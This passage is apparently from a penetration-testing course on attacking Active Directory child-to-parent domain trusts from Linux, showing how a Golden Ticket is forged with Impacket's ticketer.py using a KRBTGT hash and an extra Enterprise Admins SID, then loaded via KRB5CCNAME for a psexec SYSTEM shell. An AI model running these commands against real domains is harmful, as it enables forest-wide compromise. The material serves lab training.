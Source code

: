 We have gathered the following data points to construct the command for our attack. Once again, we will use the non-existent user `hacker` to forge our Golden Ticket.

* The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
* The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
* The name of a target user in the child domain (does not need to exist!): `hacker`
* The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
* The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Next, we can use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by `-domain-sid`) and the parent domain (specified by `-extra-sid`).

**Constructing a Golden Ticket using ticketer.py**

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
AIceBear@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

The ticket will be saved down to our system as a [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache\_def.html) file, which is a file used to hold Kerberos credentials. Setting the `KRB5CCNAME` environment variable tells the system to use this file for Kerberos authentication attempts.

**Setting the KRB5CCNAME Environment Variable**

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
AIceBear@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```

We can check if we can successfully authenticate to the parent domain's Domain Controller using [Impacket's version of Psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py). If successful, we will be dropped into a SYSTEM shell on the target Domain Controller.
